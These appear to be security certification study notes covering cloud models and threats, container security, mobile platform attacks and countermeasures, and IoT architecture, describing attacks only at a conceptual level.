- Shared infrastructure between several organizations with shared concerns (e.g. compliance)
- Not open to public
- May be owned/managed/operated by the organization, third party or combination
- May be on or off premises

#### Hybrid cloud

- Composition of two or more cloud (private, community or public)
- Infrastructures remain unique entities
  - but are bound by a technology allowing data and application portability.

#### Multi cloud

- Multi-cloud is a environment where an organization leverages two or more cloud computing platforms to perform various tasks
- Increases capabilities with combined offering
- Limits data loss and downtime to a greater extent.
- Management products include • [Azure Arc](https://azure.microsoft.com/en-us/services/azure-arc) • [Google Anthos](https://cloud.google.com/anthos) • [AWS Outposts](https://aws.amazon.com/outposts/)

## Pros and cons of cloud computing

### Advantages of cloud computing

- **Economical**: Less infrastructure cost, less cost of ownership, fewer capital expenses
- **Operational**: cost efficient, elastic, quick provisioning, automatic updates, backup and recovery...
- **Staffing**: Less staff is required, less personal training
- **Security**: Patch application and updates, less cost on security configurations, better disaster recovery, audit and monitoring on providers side, better management of security systems.
- **Innovation**: Quick access to innovation

### Disadvantages of cloud computing

- Organizations have limited control and flexibility
- Prone to outages and other technical issues
- Security, privacy, and compliance issues
- Contracts and lock-ins
- Depends on network connections
- Can be hard to migrate from one to another

## Cloud regulations

- **FedRAMP**: US regulatory effort regarding cloud computing
- **PCI DSS**: Deals with debit and credit cards, but also has a cloud SIG

## NIST Cloud Computing Reference Architecture

- High-level conceptual reference architecture
- [Full document](https://www.nist.gov/system/files/documents/itl/cloud/NIST_SP-500-291_Version-2_2013_June18_FINAL.pdf)

### Cloud actors

- **Cloud Consumer**
  - User of the cloud products and services
- **Cloud Provider**
  - Delivers cloud computing based products and services
- **Cloud Auditor**
  - Can conduct independent assessment of cloud services
- **Cloud Broker**
  - Manages the use, performance and delivery of cloud services
  - Negotiates relationships between providers and consumers
  - Service categories
    - **Service Intermediation**: Improves value of a cloud service/function
    - **Service Aggregation**: Combining multiple services to a new one
    - **Service Arbitrage**: Like aggregation but services can be chosen from different vendors.
- **Cloud Carrier**
  - Provides connectivity and transport of cloud services from providers to consumers.

## Service Level Agreement (SLA)

- Span across the cloud and are offered by service providers
- Service-level agreement (SLA) is a commitment between a service provider and a client
# Cloud security

- Cloud providers implement
  - Limited access and access policies
  - Access logs
  - Ability to require access reason against repudiation

## Trusted Computing (TC)

- Attempts to resolve computer security problems through hardware enhancements
- **Roots of Trust (RoT)**: set of functions within TCM that are always trusted by the OS

## Cloud computing risks and threats

- **Stealing information from other cloud users**
  - Internal threats where employees copying company data with bad intentions e.g. to trade.
  - Most of those breaches are not published & advertised to media.
  - Information might include e.g. credit numbers, social security numbers
- **Data loss**
  - Deleting data stored on the cloud through viruses and malware
  - ❗ High impact if there are no back-ups
- **Attack on sensitive information**
  - Stealing information about other users e.g. financial data.
- Attacker utilization of cloud infrastructure e.g.
  - **Using compute power** to crack passwords with many password attempts per seconds
  - **DDoS** attacks using cloud computing
- **Shadow IT**
  - IT systems or solutions that are developed to handle an issue but aren't taken through proper approval chain
- **Abusing cloud services**
- **Insecure interfaces and APIs**
  - E.g. weak authentication
- **Insufficient due diligence**
  - Moving an application without knowing the security differences
- **Shared technology issues**
  - Multi-tenant environments that don't provide proper isolation
  - If the hypervisor is compromised, all hosts on that hypervisor are as well
- **Unknown risk profile**
  - Subscribers don't know what security provisions are made behind the scenes.
- **Inadequate infrastructure design and planning**
- **Conflicts between client hardening procedures and cloud environment**
- **Malicious insiders**
- **Illegal access to the cloud**
  - E.g. in US data breach in 2020 a compromised global administrator account has assigned credentials to cloud service principals that allowed malicious access to cloud systems [1]
- **Virtualization level attacks**
- **Privilege escalation via error**
- **Service termination and failure**
- **Hardware failure**
  - 💡 Can be mitigated by using more zones in cloud.
- **Natural disasters**
  - 💡 Can be mitigated by using more regions in cloud.
- **Weak authentication**
  - E.g. burden of managing identity both on-premises and on cloud
    - Allows compromise on on-premises systems to spread to cloud.
    - Allows adding a malicious certificate trust relationship in cloud for forging SAML tokens on-premises.
- **Compliance risks**
  - E.g. laws regarding data transfer across borders
- **Cloud cryptojacking**
  - 📝 Hijacking cloud resources to mine for cryptocurrency
  - Often targeted on IaaS platforms through malware

[1]: https://en.wikipedia.org/wiki/2020_United_States_federal_government_data_breach "2020 United States federal government data breach"

## Cloud computing attacks

- **[Social engineering attacks](./../10-social-engineering/social-engineering-overview.md)** e.g. password guessing
- **[Cross Site Scripting (XSS)](./../13-web-applications/owasp-top-10-threats.md#cross-site-scripting-xss)**
- **DNS attacks** e.g. DNS poisoning, domain hijacking
- **SQL injection** to to gain unauthorized access to a database.
- **Network sniffing** e.g. obtain credentials, cookies
- **Session hijacking** e.g. cookie stealing
- **Cryptanalysis attacks** e.g. weak encryption
- **DoS (Denial-of-service)**
- E.g. In 2020 United States federal government data breach [1]

[1]: https://en.wikipedia.org/wiki/2020_United_States_federal_government_data_breach "2020 United States federal government data breach"

### Wrapping attack

- Also known as **XML rewriting** attack
- Changes the content of the signed part without invalidating the signature.
- Intercepting a SOAP message and sending/replaying envelope with changed data.

### Session riding

- Happens when an attacker steals a user's cookie to use the application in the name of the user
- Simply [CSRF](./../13-web-applications/session-hijacking.md#cross-site-request-forgery-csrf) in cloud

### Side channel attacks

- Also known as • **cross-guest virtual machine breach** • **cross-guest VM breach**
- Attacker controls a VM on same physical host (by compromising one or placing own)
- Attacker can then take advantage of shared resources (processor cache, keys, ...)
- Can be installed by a malicious insider or an impersonated legitimate user

### Cloud Hopper attack

- 📝 Targets managed service providers (MSPs) and their users
- 📝 Initiated by delivering malware through [spear-phishing](./../10-social-engineering/social-engineering-types.md#spear-phishing) emails
- Goal is to compromise the accounts of staff or cloud service firms to obtain confidential information
- Flow [2]
  1. Infiltrate the service provider
  2. Once inside, find system administrator  who controls the company jump servers with connection to client networks
  3. Map victim network and identify sensitive data
  4. Encrypt and exfiltrate the data either through victim or the service provider
- 🤗 Named after attacks by Chinese cyber spies [2] to MSPs in countries such as UK, USA and Sweden [1]

[1]: https://en.wikipedia.org/wiki/Red_Apollo#2014_to_2017:_Operation_Cloud_Hopper "Operation Cloud Hopper | Wikipedia"
[2]: https://www.reuters.com/investigates/special-report/china-cyber-cloudhopper/ "Inside the West's failed fight against China's 'Cloud Hopper' hackers | Reuters"

### Cloudborne attack

- Done by exploiting a specific BMC  vulnerability
- 📝 Bare-metal / firmware level attack
  - Allows injecting code/backdoors
  - Affects IaaS providers that gives bare-metal access without access to the actual firmware
    - Impacting businesses that use bare metal cloud offerings
  - Survives client switches (customer customer re-assignments) performed by the provider
  - Targets baseboard management controller (BMC) firmware
    - BMC enables remote management of a server for initial provisioning, OS reinstall and troubleshooting [1] [2]
- Mitigated by IBM through factory firmware reset before re-provisioning hardware to other customers [2]
- Allows attacks such as
  - permanent denial-of-service (PDoS) on bare metal server
  - stealing data from application running on the server
  - ransomware attacks
- Revealed by Eclypsium (Firmware protection firm) in 2019 based on IBM SoftLayer cloud services [1]

[1]: https://eclypsium.com/2019/01/26/the-missing-security-primer-for-bare-metal-cloud-services/ "The Missing Security Primer for Bare Metal Cloud Services | eclypsium.com"
[2]: https://www.ibm.com/blogs/psirt/vulnerability-involving-ibm-cloud-baseboard-management-controller-bmc-firmware/ "Vulnerability involving IBM Cloud Baseboard Management Controller (BMC) Firmware | IBM"

### Man-In-The-Cloud (MITC) attack

- 📝 Done by using file synchronization services (e.g. Google Drive and Dropbox) as infrastructure
  - E.g. as command and control (C&C), data exfiltration, and remote access.
- Makes it hard to
  - distinguish malicious traffic from normal traffic
  - discover and analyze evidence due to not leaving footprint on endpoint devices
- E.g. Switcher malware [1]
  1. Installs attackers token and moves victim's real token into *sync folder* folder to be synced
  2. Victim device is synced to attackers attacker account
  3. Attacker uses original account token and erase malicious one
  4. Removes traces of the security breach

[1]: https://www.helpnetsecurity.com/2019/01/21/mitc-attack/ "Beware the man in the cloud: How to protect against a new breed of cyberattack | Help Net Security"

## Cloud security tools

- [CloudInspect](https://www.coresecurity.com/core-labs/open-source-tools/core-cloudinspect)
  - Penetration-testing as a service from Amazon Web Services for EC2 users
- [CloudPassage Halo](https://www.cloudpassage.com/cloud-computing-security/)
  - Automates cloud computing security and compliance controls
- [privacy.sexy](https://github.com/undergroundwires/privacy.sexy)
  - Open-source solution to increase privacy by reducing third party cloud-based data collection
  - Can also be used to harden virtual machine images and OSes that are talking to cloud services
# Containers

- More than one container can run on the same host OS.
- [Docker](https://www.docker.com/) is the standard way of running containers

## Containers vs VMs

- Both reduces cost due to shared hardware.
  - A single physical server can host multiple, concurrent VMs or applications
- A virtual machine virtualizes an operating system
  - A container sandboxes an applications

## Container threats

### Container threat model

- **Container escape (system)**
  1. Attacker needs to escape application and end up in container with shell access
  2. Attacker than uses host or kernel exploit to escape container
- **Other containers via network**
  1. Attacker needs to escape application and end up in container with shell access
  2. Attacker attacks other containers on network
- **Attacking the orchestration tool via network**
  1. Attacker needs to escape application and end up in container with shell access
  2. Attacker attacks on management interfaces or other attacks surfaces of the orchestration tool
     - 🤗 In 2018 almost every tool has had a weakness here which was a default open management interface
- **Attacking the host via network**
  1. Attacker needs to escape application and end up in container with shell access
  2. With shell access attacker opens a port from the host
- **Attacking other resources via network**
  1. Attacker needs to escape application and end up in container with shell access
  2. Attacks e.g. on shared network-based file system, LDAP/Active Directory, Jenkins..
     - Can also install sniffer to read traffic of other containers
- **Resource starvation**
  - Attacker causes a container eating up resources which could be CPU cycles, RAM, network or disk-I/O.
  - 📝 Can cause problems affecting all other containers on same host
- **Host compromise**
  - Either through another container or through the network.
- **Integrity of images**
  - Each step in CD pipeline where container image is attack vector for the attacker.
  - Attacker can inject malicious payloads to deploy.
- 

### OWASP Docker Top 10

1. **Secure user mapping**
   - Docker runs with root.
   - Escape from application => root in container
2. **Patch management strategy**
   - Bugs on container/orchestration tools or OS images needs to be patched.
3. **Network segmentation and firewalling**
   - Design your network upfront providing network level protection for
     - management interfaces from the orchestration too
     - network services from the host
   - Expose microservices to only legitimate consumers
4. **Secure defaults and hardening**
   - Ensure no unneeded components are installed or started.
   - Ensure needed components are properly configured and locked down.
5. **Maintain security contexts**
   - Do not mix production containers on one host with other stages of less secure containers.
   - Do not mix frontend with backend services on one host.
6. **Protect secrets**
   - Ensure passwords, tokens, private keys or certificates are protected.
7. **Resource protection**
   - Protect shared resources such as CPU, disks, memory and networks.
   - Ensures one containers usage does not affect others.
8. **Container image integrity and origin**
   - Ensure OS in container is trustworthy until deployment.
   - Ensure images are not tampered with during transfers.
9. **Follow immutable paradigm**
   - Start containers on read-only mode if no file access is needed
10. **Logging**
    - Log on application, container image and orchestration tool
    - Both related events and API level
    - Ensure logs are stored on remote with timestamps and are tamper proof

## Container attacks

- Attacks are generally not on the containers themselves, but on the applications running in them.
- Exploiting vulnerable images
  - Container image may have outdated software that has vulnerabilities if it's no longer maintained.
  - E.g. Apache OpenWhisk image (Open Source Serverless Cloud Platform) [had a vulnerability where one could replace serverless functions](https://nvd.nist.gov/vuln/detail/CVE-2018-11757).
- Exploiting bugs and vulnerabilities on unpatched Docker
  - E.g. [a bug](https://nvd.nist.gov/vuln/detail/CVE-2019-5736) caused compromised images to access the host OS that has been fixed.
  - E.g. Windows Host Compute Service Shim library had [remote code execution](https://nvd.nist.gov/vuln/detail/CVE-2018-8115) vulnerability
  - E.g. [a bug](https://nvd.nist.gov/vuln/detail/CVE-2018-9862) allowed root privilige escalation using `docker` command
- Creating malicious container on compromised host system
  - E.g. [crypto-miner containers that were running near Russian nuclear warzone](https://www.fortinet.com/blog/threat-research/yet-another-crypto-mining-botnet)
- Exploiting orchestration tool
  - Can be e.g. Kubernetes, OpenShift, Cloud Foundry or other (cloud) layer running containers.
  - See [Kubernetes vulnerabilities on CVE](https://www.cvedetails.com/vulnerability-list/vendor_id-15867/product_id-34016/Kubernetes-Kubernetes.html)

## Container advantages over VM

- **Often no SSH enabled into containers**
  - No SSH attacks
- **Often no user access expected**
  - No need for credentials or tools to support users
- **Restricted ports by default**
  - Specific and limiting about which ports to connect
- **Short-lived containers are unlikely bases for attackers**
  - Harder to compromise a service that only lives for a few seconds/minutes.
- **Immutable designs make it difficult to inject malware**
  - As persistance is usually separated away from the container
- **Automatic generation makes it faster to pick up and promote security patches**
  - Automated CI/CD pipelines make updating libraries/OS much quicker than manual
- **Well-defined APIs enables easier anomaly detection**
  - Developers often create APIs to communicate with containers
  - Makes it easy to create a reference model for what is normal inside an application, so anything outside of that is an anomaly. We can automatically detect any anomalies

## Container security countermeasures

- [OWASP Docker Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html)
  - Keep Host and Docker up to date
  - Do not expose the Docker daemon socket (even to the containers)
  - Set a user
  - Limit capabilities (Grant only specific capabilities, needed by a container)¶
  - Add –no-new-privileges flag
  - Disable inter-container communication (--icc=false)
  - Use Linux Security Module (seccomp, AppArmor, or SELinux)
  - Limit resources (memory, CPU, file descriptors, processes, restarts)
  - Set filesystem and volumes to read-only
  - Use static analysis tools
  - Lint the Dockerfile at build time
- **Pre-deploy sources and dependency validation**
  - Ensures containers are using valid and expected code paths.
- **Pre-deploy authenticity validation**
  - Ensures that the code has not been tampered with.
- **Pre-deploy image scanning for vulnerabilities**
  - Looking for signatures of compromised packages
- **Active vulnerability scans of running containers**
  - Running automated scans after the container is deployed.
- **Network routing that includes traffic inspection**
  - Create a function based service firewall.
- **Integrated log capture**
  - Since there's no local storage, most container patterns are including central log capture and analysis
- **External injection of trust and credentials**
  - Giving credentials just-in-time to running live instances rather than static code
- **Always check running containers**
  - To ensure there's no malicious container running.
- **Ensure container images are up-to-date**
  - Unupdated/stale images might be vulnerable
- **Never-ever as root**
  - Run in [rootless mode](https://docs.docker.com/engine/security/rootless/) (as non root)
# Hacking mobile platforms

## Mobile platform attack vectors

- Enabled by extensive usage and implementation of bring your own device (BYOD) policies
- Device
  - Phishing
- Network
- Data-center/cloud

### [OWASP Top 10 Mobile Threats](https://owasp.org/www-project-mobile-top-10/)

1. **[Improper Platform Usage](https://owasp.org/www-project-mobile-top-10/2016-risks/m1-improper-platform-usage)**
   - Misuse of a platform feature or failure to use a platform security controls
   - Caused by insecure coding towards an exposed API
   - E.g. • Android intents • platform permissions • cloud risks • TouchID misuse • Keychain
   - Allows feeding malicious inputs or unexpected sequences of events to the vulnerable endpoint
2. **[Insecure Data Storage](https://owasp.org/www-project-mobile-top-10/2016-risks/m2-insecure-data-storage)**
   - Caused by assumption that users/malware will not have access to a mobile device's filesystem.
   - Filesystem are easily accessible through computer connection and specialized tools.
   - 💡 Use strong encryption
   - 💡 Careful when logging, caching, storing data, sending analytics, setting cookies, etc.
3. **[Insecure Communication](https://owasp.org/www-project-mobile-top-10/2016-risks/m3-insecure-communication)**
   - Allows exploiting vulnerabilities to intercept sensitive data in transit
   - Communications include TCP/IP, WiFi, Bluetooth/Bluetooth-LE, NFC, audio, infrared, GSM, 3G, SMS...
   - Attacks include e.g. compromising local network in coffee shop, carrier/network devices or installing malware
   - Caused by e.g. • poor handshaking (with weak encryption) • not using SSL/TLS • lack of certificate • weak negotiation • cleartext communication of sensitive assets.
4. **[Insecure Authentication](https://owasp.org/www-project-mobile-top-10/2016-risks/m4-insecure-authentication)**
   - Captures notions of authenticating the end user or bad session management
   - Usually attacked through automated tools
   - Caused by poor or missing authentication schemes
   - Typically done via mobile malware within the device or botnets owned by the attacker.
   - 💡 Use access tokens, never store keys locally, store data encrypted, do not use TouchID or 4-digit pins (even hashes can be cracked with rainbow tables easily), always authenticate on back-end
5. **[Insufficient Cryptography](https://owasp.org/www-project-mobile-top-10/2016-risks/m4-insecure-authentication)**
   - Cryptography was attempted, but it wasn't done correctly
   - Can be caused by weak algorithms, poor key management processes
   - Creation and Use of Custom Encryption Protocols
   - 💡 Do not trust code encryption from underlying OS 🤗 e.g. in iOS
     - Apps are encrypted and signed by trustworthy sources
     - iOS app loader will decrypt the app in memory execute after signature validation
     - Attacker can use jailbroken device and take snapshot of application memory once it's decrypted
6. **[Insecure Authorization](https://owasp.org/www-project-mobile-top-10/2016-risks/m6-insecure-authorization)**
   - Allowed by poor or missing authorization schemes
   - Usually attacked through automated tools
   - Typically done via mobile malware within the device or botnets owned by the attacker.
   - Attacks include
     - binary attacks when application is in offline mode
     - using low-privilige session to gain more access by manipulating GET/POST request
   - Weaknesses include
     - Insecure Direct Object Reference (IDOR) i.e. endpoints without authorization checks.
     - Hidden endpoints as developers assume they'll not be seen by anyone
     - User role or permission transmissions from app to back-end
   - 💡 Always verify claims/roles in back-end independently from client.
7. **[Client Code Quality](https://owasp.org/www-project-mobile-top-10/2016-risks/m7-client-code-quality)**
   - All of the code-level implementation problem in the mobile client
   - Caused by passing untrusted inputs to method calls
   - Covers security decisions via untrusted inputs
   - May lead to
     - memory leaks and buffer overflows through app on the mobile device
     - foreign code execution or denial of service on remote server endpoints
8. **[Code Tampering](https://owasp.org/www-project-mobile-top-10/2016-risks/m8-code-tampering)**
   - Usually done through changing forms of the apps to collect data
   - Attacker can directly modify the code, change the contents of memory dynamically, change or replace the system APIs that the application uses, or modify the application's data and resources
   - Malicious apps are typically distributed in third party stores
   - Phishing attacks can be used to trick users to install the apps.
   - E.g. • binary patching • local resource modification • method hooking • dynamic memory modification
   - 💡 Countermeasures
     - Integrity checks during run-time.
     - Do not run if the device is rooted/jailbroken.
9. **[Reverse Engineering](https://owasp.org/www-project-mobile-top-10/2016-risks/m9-reverse-engineering)**
   - Analysis of the final core binary to determine the source code, libraries, ...
10. **[Extraneous Functionality](https://owasp.org/www-project-mobile-top-10/2016-risks/m10-extraneous-functionality)**
    - Attacker analyzes the apps for test-code left behind, hidden functionality, switches etc.
    - Attacked to learn about back-end systems or running unauthorized high-privileged actions

#### Basic Threats

- Malware / rootkit
- Data Loss
- Data Tampering
- Data Exfiltration

#### Vulnerabilities And Risks on Mobile Platforms

- Malicious third-party application / in the store
- Application vulnerability
- Data security
- Excessive permissions
- Weak encryptions
- Operating System update issue
- Application update issue
- Jailbreaking / rooting
- Physical attack

#### OS Sandboxing Issue

- Sandbox is a security mechanism for separating running programs, usually in an effort to mitigate system failures or software
vulnerabilities from spreading
- Sandbox limits the app's access to files, preferences, network resources, ...
- Advanced malware designed to bypass it, by fragment code or put sleep timer in the script to bypass the inspection process

## Android

### Device Administration API

- Provides device administration features at the system level
- This API allows to create security-aware apps that are useful in the enterprise settings, where require rich control over employee devices

### Rooting

- A process of allowing user to attain privileged control
- Needed for modify settings, get full control over the kernel or install custom ROMs
- E.g. [SuperOneClick](https://www.malavida.com/en/soft/superoneclick/) allows to root Android phones.

## iOS

### Jailbreaking

- Rooting the iOS
- Escalating the privileges on iOS to remove or bypass the factory default restrictions

#### Jailbreaking exploits

- **Userland exploit**
  - 📝 Allow user-level access without escalating iBoot-level access
- **iBoot exploit**
  - 📝 Allow user-level and boot-level access
- **BootROM exploit**
  - 📝 Allow user-level and boot-level access

#### Jailbreaking Techniques

##### Untethered jailbreak

- Does not require to reboot with a connection to your computer
- Exploit bypass the iBoot sequence

##### Tethered jailbreak

- Need a connection to your computer to reboot, without it, the boot stuck with an Apple logo
- Offers complete jailbreak features

##### Semi-Untethered jailbreak

- Allows to boot into the iOS device, but with limited functionality
- The jailbreak functions will be disabled until the launch of a jailbreak app

#### Semi-Tethered jailbreak

- Allows you to boot with limited functionality
- To get the full functionality, a reboot with a tethered jailbreak required
- Tethered jailbreak + a package to allow reboot with limited functionality
- ❗ A reboot no longer retains the patched kernel
  - But the installed jailbreaking tool can be used if admin privileges are required.

## Windows Phone

- Windows Phone 8 using the Windows NT Kernel
- Windows Phone 8 include app sandboxing, remote device management, native code support (C++)

## BlackBerry OS

- Support for Java Micro Edition MIDP 1.0 and MIDP 2.0
- OS update with BlackBerry over the air software loading service (OTASL)

## Mobile Device Management (MDM)

- Deployment, maintenance and monitoring of mobile devices

### MDM Functions

- Enforce device to be locked after certain failed login
- Enforce strong password policy for all BYOD.
- MDM can detect attempt of hacking BYOD device and then limit the network access of the affected device
- Enforce confidentiality by using encryption as per organization's policy
- Administration and implementation of Data Loss Prevention (DLP)

### MDM Deployment Methods

#### On-site MDM Deployment

- Install MDM application on local servers
- Management is done by local staff
- Provide full control over the MDM

#### Cloud-based MDM Deployment

- MDM application is installed and maintained by a third party
- Less administration needed
- The deployment and maintenance is the responsibility of the service provider

### Bring Your Own Device (BYOD)

BYOD is a trend of employees using their personal devices for work. It could be a laptop, a phone, etc...

#### BYOD Policies

BYOD policies should include:

- Device: which devices and operating systems are supported
- Password: require all devices to be password protected
- Access: determine which data can be accessed from employee's device
- Application: which applications allowed, which should be banned

## Mobile security guidelines

- Avoid auto-upload of files
- Perform security assessment of applications
- Turn off Bluetooth
- Allow only necessary GPS-enabled applications
- Do not connect to open network
- Install applications from trusted sources
- Use strong password
- Use [Mobile Device Management (MDM)](#mobile-device-management-mdm) softwares
- Update operating system often
- Do not allow rooting / jailbreaking
- Encrypt phone storage
- Periodic backup
- Configure mobile device policies
# Mobile attacks

## Mobile threats

- Takes advantage of the lack of security control in smartphones
- Can also be caused by a malicious app
- Older OS versions have known vulnerabilities
  - Patched in newer versions but users may not update them.
  - Vendors may not update phones after a while, maybe before warranty period.
- Vendors having own modified version of Android increases security risks
- Data transmission threats through [Bluetooth](./../09-wireless-networks/bluetooth.md), [WiFi](./../09-wireless-networks/wireless-threats-and-attacks.md), 3G/4G/5G or wired connection to a computer.

## Attack vectors

## Attacks on the device

- **Malicious code signing**
  - Obtaining a code-signing key from the code signing service to create a malicious application
- **JAD File Exploit**
  - Attacker crafts a `.jad` file with spoofed information
  - Java Application Description (`.jad`) contains attributes of Java application

### Browser-based attacks

- **Framing**
  - Integrating another page through `iframe` element of HTML
  - Enables clickjacking to steal information
- **Man-in-the-Mobile**
  - Also known as • **MitMo** • **Man-in-the-Phone**
  - Malware to spy on e.g. SMS OTPs (one-time passwords) or voice calls and relay them back to the hackers
- **Buffer Overflow**
  - Caused by not truncating input data when it's longer than the reserved space and leads to overwriting other data in memory.
  - 📝 Both iOS and Android are vulnerable as they use C/C++ in their kernels
- **Data caching**
  - Inspected to gain sensitive information stored in them
- [Clickjacking](./../13-web-applications/hacking-web-applications.md#clickjacking)

#### Phishing

- Redirecting uses to legitimate looking malicious sites through e.g. pop-ups, emails
- Mobile users are more vulnerable due to smaller size of the browsers, URLs, warnings etc.
- See also [Phishing | Social Engineering](../10-social-engineering/social-engineering-types.md#phishing)

### Phone/SMS-based attacks

- **Baseband Attacks**
  - Exploits GSM/3GPP processor (exchanges radio signals with cell towers)
- See [Mobile-based social engineering | Social engineering types](./../10-social-engineering/social-engineering-types.md#mobile-based-social-engineering) including e.g. • SMS phishing (SMSiShing) • Fake security apps • Repackaging legitimate apps • Malicious apps

### Application-based attacks

- Sensitive data storage
- No encryption / weak encryption
- Improper SSL validation
- Configuration manipulation
  - E.g. through external configuration files
- Dynamic runtime injection
  - E.g. stealing data in memory
- Unintended permissions
- Escalated privileges
- Access to device and User info
- Third-party code
- Intent hijacking
- Zip directory traversal
- Side channel attack
- UI overlay/pin stealing
- Intent hijacking
- Clipboard data
- URL schemes
- GPS spoofing
- Weak / no local authentication
- Integrity / tampering / repackaging
- Unprotected app signing key
- App transport security

### System attacks

- Malware
  - Attacks the underlying system
- No passcode / weak passcode
- iOS jailbreaking
- Android rooting
- OS data caching
- Accessible passwords and data
- Carrier-loaded software
  - Through e.g. bloatware
- No encryption / weak encryption
- User-initiated Code
- Zero-day exploits
- Device lockout
- Kernel driver vulnerabilities
- Confused deputy attack
- TEE/secure enclave processor
- Side-channel leakage
- Multimedia/file format parsers
- Kernel driver vulnerabilities
- Resource DoS
- GPS spoofing

## Network attacks

- [Wi-Fi](./../09-wireless-networks/wireless-threats-and-attacks.md)
  - E.g. no-encryption or weak encryption
- Rogue Access Point
- [Packet sniffing](./../08-sniffing/sniffing-attacks-overview.md)
- Man-in-the-Middle (MITM)
  - **SSLStrip**: websites are downgrades to use HTTP
  - **Fake SSL certificates** issued by attacker
- [Session hijacking](./../13-web-applications/session-hijacking.md)
- [DNS poisoning](./../08-sniffing/sniffing-attacks-overview.md#dns-poisoning)
- BGP hijacking
- [HTTP proxies](./../03-scanning-networks/bypassing-ids-and-firewall.md#proxy-servers)
- **Sidejacking**
  - Listening to traffic to steal exchanged cookies to extract session IDs

## Data center/cloud attacks

### Web server attacks

- Platform vulnerabilities in OS and server software
- Server misconfiguration
- [**Cross-site scripting (XSS)**](./../13-web-applications/owasp-top-10-threats.md#cross-site-scripting-xss)
- Cross-site forgery (XSRF)
- Weak input validation
- [Brute force attacks](../15-cryptography/cryptanalysis.md#brute-force-attack)
- Cross Origin Resource Sharing
- [Side channel attack](./../16-cloud-computing/cloud-security.md#side-channel-attacks)
- Hypervisor attack
- VPN

### Database attacks

- [SQL injection](./../14-sql-injection/sql-injection-overview.md)
- [Privilege escalation](./../06-system-hacking/escalating-privileges.md)
- Data dumping
- OS command execution
# Mobile hacking

## Motivations

- **Surveillance**: • Audio • Camera • Call logs • Location • SMS messages
- **Financial**: • sending high rate SMS • stealing transaction authentication numbers (TANs) • extortion via ransomware • fake antivirus • making expensive calls
- **Data theft**: • Account details • Contacts • Call logs • phone number • stealing IMEI
- **Botnet activity**: • launching DDoS attacks • click fraud • sending SMS
- **Impersonation**: • SMS redirection, sending e-mail messages, posting to social media

## Attack vectors

- Malware
- Data exfiltration
- Data tampering
- Data loss

## Vulnerabilities and risks

- Malicious apps in stores
- Mobile malware
- App sandboxing vulnerabilities
- Weak device and app encryption
- OS and app update issues
- Jailbreaking and rooting
- Mobile application vulnerabilities
- Privacy issues (Geolocation)
- Weak data security
- Excessive permissions
- Weak communication security
- Physical attacks
- Insufficient code obfuscation
- Insufficient transport layer security
- Insufficient session expiration

## Security issues from App Stores

- Used to distribute malware/malicious apps
- App: Software that runs on mobile devices
- App Store: Distribution platform
  - Can be from owners of the OS e.g. Apple, Google play, Microsoft.
  - Or third parties e.g. Amazon Appstore, GetJar, and APKMirror.
- Can be distributed through
  - legitimate app stores
    - because of insufficient or no vetting of apps
  - unofficial app stores
    - user is social engineered to download and execute

## Sandboxing

- App sandboxing
  - Limits resources available to an app
  - Isolates one from another
  - ❗ A vulnerable one can still be exploited

## Mobile spam

- Also known as SMS spam, text spam, or m-spam
- Advertisements or malicious links
- E.g. you've won a prize, click here to claim it.

## SMiShing

- SMS phishing
- Acquire personal information through SMS with malicious links
- Effective as
  - Easy through e.g. using prepaid SMS card using fake identity
  - Usually not checked by antiviruses
  - Users are not familiar
- E.g. "PayPal - your account has been locked"

## Pairing

- Pairing with malicious devices may enable e.g. [BlueSnarfing](./../09-wireless-networks/bluetooth.md#bluesnarfing) and [BlueBugging](./../09-wireless-networks/bluetooth.md#bluebugging)
# IoT overview

## IoT basics

- Internet of things
- Extends Internet connectivity beyond standard devices to everyday objects
- Usually uses IPv6 due to the limited number of IPv4 addresses
- Operating systems: Linux or Windows (10) IoT

## Top-level components

- **Device**
  - Includes hardware and software that directly interact with the world.
  - They connect to a network to communicate with each other, or to centralized applications
- **Gateway**
  - Enables services to reach cloud services.
  - Infrastructure component providing security and protocol translations
  - Also used as a service that process data on behalf of group or cluster devices.
  - Often a device e.g. smart home hub.
  - Usually from the same vendor
- **Cloud**
  - See [cloud computing](./../16-cloud-computing/cloud-computing.md)
- **Sensors**
  - Detects, measures or indicates any specific physical quantity
  - E.g. light, heat, motion, moisture, pressure, or similar entities
  - Converts them into any other form which is mostly, electrical pulses.

## IoT communication models

### Device-To-Device (D2D)

- Direct communication between devices
- Uses a medium such as Bluetooth Low Energy etc.
- Common in home automation systems e.g. light bulbs or wearables e.g. smart watch and heart monitor.
- Simpler security
- E.g. **Vehicle-to-vehicle (V2V)**
  - Uses Vehicle Ad Hoc Network (VANET)
    - Based on MANET i.e. decentralized wireless network (without routers)

### Device-To-Cloud (D2C)

- IoT device directly communicating with the cloud server
- Often uses ethernet or WiFi
- Lets the user (and an application) to obtain remote access to a device
- E.g. smart card for dogs, remote monitoring
- Two credentials:
  - the network access credentials (such as the mobile device's SIM card)
  - credentials for cloud access
- E.g. [Nest Learning Thermostat](https://store.google.com/us/product/nest_learning_thermostat_3rd_gen)

### Device-To-Gateway (DTG)

- IoT devices basically connect to an intermediary device to access a cloud service
- Often includes an application software operating on a local gateway device (like a smartphone or a "hub")
- Gateway provides security, protocol translation and usually does aggregation
- E.g. [Samsung SmartThing](https://www.smartthings.com/) ecosystem

### Back-end data-sharing

- Extends device-to-cloud model
- Access are granted to the uploaded data to third-parties
- E.g. [Map My Fitness](https://www.mapmyfitness.com/app) that compiles data from other applications

## Layered architecture

- IoT architecture can be categorized into different layers.
- There's no consistency regarding naming of layer.
  - Different methodologies are used but the concepts they represent are very similar.
- 📝 It usually consists of 5 layers:
  1. [Edge technology layer](#edge-technology-layer) the "IoT objects collecting data"
  2. [Access gateway layer](#access-gateway-layer) the "data transporter"
  3. [Internet layer](#internet-layer) the "endpoint connector"
  4. [Middleware layer](#middleware-layer) the "data analyzer and processor"
  5. [Application layer](#application-layer) the "user interface"
- Some sources also name sixth layer:
  6. [Business layer](#business-layer) the "core logic"
- Each layer is utilized by layer below without knowledge of other layers
- 
- Read more: [IoT Elements, Layered Architectures and Security Issues: A Comprehensive Survey](https://www.mdpi.com/1424-8220/18/9/2796/htm)

### Five-layers of IoT architecture

#### Edge technology layer

- Also known as **perception layer** or **hardware layer**
- Physical objects (hardware components)
  - Covers IoT capable devices
  - E.g. sensors, actuators, heat sensor, RFID tags, readers, device itself
- Connects devices within network and server
- Gathers environment data
- **Key security components**
  - Encryption and key agreement
  - Sensor data protection
- **Vulnerabilities**
  - Eavesdropping: real time attack to intercept privacy communications.
  - Node Capture: capturing a key node such as gateway to reveal information.
